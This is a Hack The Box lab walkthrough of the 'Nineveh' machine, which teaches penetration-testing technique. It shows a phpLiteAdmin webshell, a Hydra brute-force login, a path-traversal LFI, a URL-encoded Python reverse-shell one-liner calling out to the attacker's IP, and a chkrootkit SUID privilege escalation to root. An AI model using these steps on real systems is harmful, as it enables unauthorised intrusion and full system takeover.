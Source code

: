 # HTB - Nineveh

#### Ip: 10.129.69.39
#### Name: Nineveh
#### Rating: Medium

----------------------------------------------------------------------

![Nineveh.png](../assets/nineveh_assets/Nineveh.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.69.39 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-08 13:45 CDT
Nmap scan report for 10.10.10.43
Host is up (0.070s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.98 seconds
```

Ok looks just like HTTP and HTTPS open for this box. Lets add nineveh.htb to `/etc/hosts` first off.

Looking at the page on port 80 we find a basic HTML landing page:

```
It works!

This is the default web page for this server.

The web server software is running but no content has been added, yet.
```

And on port 443 we find a simple image:

![nineveh_443.png](../assets/nineveh_assets/nineveh_443.png)

Using basic directory fuzzing we find a `/db` page, which appears to be a phpLiteAdmin page:

![nineveh_db.png](../assets/nineveh_assets/nineveh_db.png)

After trying just a few low-hanging-fruit passwords, I found I was able to login with the password `password123`.

Looking for exploits for phpLiteAdmin 1.9 I find: https://www.exploit-db.com/exploits/24044

This exploit clearly lays out steps we need to take to exploit this:

```
Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!
```

Lets take this idea and try to create a webshell. We'll create a new db called shell.php, and add a table called shell. From here we can replicate the step above and add the text field `<?php system($_GET["cmd"]); ?>`.

![nineveh_shell.png](../assets/nineveh_assets/nineveh_shell.png)

CLicking `create` and returning to the shell.php db page we see it is being stored in `/var/tmp/shell.php` which means until we get deeper access to the target it doesn't seem usable to us yet.

![nineveh_path.png](../assets/nineveh_assets/nineveh_path.png)

Lets take step back and perform more thorough directory fuzzing:

For port 80:
```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ feroxbuster --url http://nineveh.htb -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php -o 80_dirs.txt 
```

and port 443:
```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ feroxbuster --url http://nineveh.htb -k  -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php -o 443_dirs.txt 
```

Looking at the scan output we find a department login page:

![nineveh_dirs80.png](../assets/nineveh_assets/nineveh_dirs80.png)

![nineveh_department.png](../assets/nineveh_assets/nineveh_department.png)

And looking at the page source we find an interesting comment:

![nineveh_source.png](../assets/nineveh_assets/nineveh_source.png)

Looks like Mysql is running internally, and we also discover a potential username amrois.

Trying to login if we enter `admin` as the username and an incorrect password we get the error `invalid password!`, but if we enter something like `root:root` we get the error `incorrect username`. This lets us know the username `admin` exists.

Trying common passwords got me nowhere here so I fired up Hydra and we found a hit:

![nineveh_hydra.png](../assets/nineveh_assets/nineveh_hydra.png)

`admin:1q2w3e4r5t`

We can now access the site:

![nineveh_in.png](../assets/nineveh_assets/nineveh_in.png)

In the Notes section we find another note from amrois:

```
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```

The path for Notes is: http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt

Which looks like its worth testing LFI here.

Fiddling around with placement, I eventually found an LFI at: http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../etc/passwd

![nineveh_lfi1.png](../assets/nineveh_assets/nineveh_lfi1.png)

Trying to use this LFI to interact with the shell.php file we uploaded earlier, we can confirm execution as user www-data:

![nineveh_webshell.png](../assets/nineveh_assets/nineveh_webshell.png)

Lets grab a python reverse shell one-liner from revshells.com, URL encode it, and pass it as our command:

```
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../var/tmp/shell.php&cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.214%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ nc -lnvp 443                                             
listening on [any] 443 ...
connect to [10.10.14.214] from (UNKNOWN) [10.129.69.39] 34386
www-data@nineveh:/var/www/html/department$ whoami
whoami
www-data
www-data@nineveh:/var/www/html/department$ hostname
hostname
nineveh
```

Now that we have a shell on the target we can attempt to access the user.txt flag in amrois `/home` directory, but get an access denied:

```
www-data@nineveh:/home/amrois$ cat user.txt
cat: user.txt: Permission denied
```

Not finding much of interest I decided to load pspy64, and we find that `chkrootkit` is running very frequently:

![nineveh_chkroot.png](../assets/nineveh_assets/nineveh_chkroot.png)

Looking for exploits I find: https://www.exploit-db.com/exploits/33899

Lets create a file called `update` in `/tmp` that sets the SUID on `/bin/bash`

```
www-data@nineveh:/tmp$ cat update 
#!/bin/bash
/bin/chmod 4755 /bin/bash
```

We can then make it executable and assign it open permissions:

```
www-data@nineveh:/tmp$ chmod +x /tmp/update
www-data@nineveh:/tmp$ chmod 777 /tmp/update
```

We can wait just a second or two before running `/bin/bash -p` to drop into a root shell:

```
www-data@nineveh:/tmp$ /bin/bash -p         
bash-4.3# whoami
root
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

And we can now grab the two flags:

![nineveh_user_flag.png](../assets/nineveh_assets/nineveh_user_flag.png)

![nineveh_root_flag.png](../assets/nineveh_assets/nineveh_root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------

